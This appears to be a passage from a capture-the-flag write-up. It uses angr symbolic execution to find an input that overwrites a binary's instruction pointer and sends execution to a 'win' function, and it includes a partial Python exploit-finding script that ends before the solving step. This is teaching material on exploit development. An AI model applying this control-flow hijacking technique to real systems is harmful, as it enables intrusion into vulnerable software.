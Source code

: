 Woah, looks like we got some results: The program terminated with 1  
unconstrained state.  
An unconstrained state occurs when we take control of the instruction  
pointer, hence the "unconstrained" state of execution (we can go to  
wherever we want).

Let's inspect the program counter (i.e. instruction pointer):

```python  
>>> exploitable_state = sm.unconstrained[0]  
>>> exploitable_state.regs.pc  
<BV64 0x0 .. (if strlen_4_64[31:0] == 0x3b && strlen_4_64[31:31] == 0 then 248
+ (file_0_stdin_0_2_504{UNINITIALIZED}[407:406] ..
~file_0_stdin_0_2_504{UNINITIALIZED}[405:403] ..
~file_0_stdin_0_2_504{UNINITIALIZED}[402:402] ..
~file_0_stdin_0_2_504{UNINITIALIZED}[401:401] ..
~file_0_stdin_0_2_504{UNINITIALIZED}[400:400]) else 64) .. (if
strlen_4_64[31:0] == 0x3b && strlen_4_64[31:31] == 0 || strlen_4_64[31:0] ==
0x3a && strlen_4_64[31:31] == 0 then 55 else 10) .. (if strlen_4_64[31:0] ==
0x3b && strlen_4_64[31:31] == 0 || strlen_4_64[31:0] == 0x3a &&
strlen_4_64[31:31] == 0 || strlen_4_64[31:0] == 0x39 && strlen_4_64[31:31] ==
0 then 248 + (file_0_stdin_0_2_504{UNINITIALIZED}[7:6] ..
~file_0_stdin_0_2_504{UNINITIALIZED}[5:3] ..
~file_0_stdin_0_2_504{UNINITIALIZED}[2:2] ..
~file_0_stdin_0_2_504{UNINITIALIZED}[1:1] ..
~file_0_stdin_0_2_504{UNINITIALIZED}[0:0]) else 79)>  
```

Cool! We can actually see a bunch of symbolic transformations that were
applied  
to our input! That means all we need to do is use angr's solver engine to
determine which input will set `exploitable_state.regs.pc` to the address of
`win`.

Here's my script:  
```python  
import angr  
import claripy  
import sys

def main(filename):  
   proj = angr.Project(filename, auto_load_libs=False)

   # There's an fgets in main that reads 64 bytes from stdin.  
   payload = [claripy.BVS(f"byte_{i}", 8) for i in range(64)]  
   payload_ast = claripy.Concat(*payload + [claripy.BVV(b'\n')])

   st = proj.factory.full_init_state(  
       args=[filename],  
       add_options=angr.options.unicorn,  
       stdin=payload_ast  
   )

   # There aren't really any branches in the program, so let's just run it  
   # until it terminates or reaches an unconstrained state.  
   # ---  
   # An unconstrained state occurs when we take control of the instruction  
   # pointer, hence the "unconstrained" state of execution (we can go to  
   # wherever we want).  
   sm = proj.factory.simulation_manager(st, save_unconstrained=True)  
   sm.run()

   # Take the first exploitable state that controls instruction pointer (for  
   # this problem there's only one).  
   ep = sm.unconstrained[0]  
   pc = ep.regs.pc
```